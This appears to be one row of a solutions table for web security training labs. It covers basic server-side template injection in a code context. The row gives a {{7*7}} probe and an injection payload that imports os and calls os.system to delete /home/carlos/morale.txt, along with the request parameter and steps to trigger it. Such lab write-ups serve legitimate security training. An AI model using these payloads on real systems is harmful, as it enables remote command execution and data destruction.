 |86    |Basic server-side template injection (code context)                                                                      |blog-post-author-display=user.name}}{{7*7}}  blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('rm%20/home/carlos/morale.txt')                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |Prefered name parameter makes a request POST /my-account/change-blog-post-author-display  parameters:  blog-post-author-display=user.first_name&csrf=u55IaRymLHNocS15YKaCF42Za2jok2Vg  This shows in a comment, so post a test comment and reload the page with the comments in to see the result of the injection.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |Practitioner, SSTI                          |
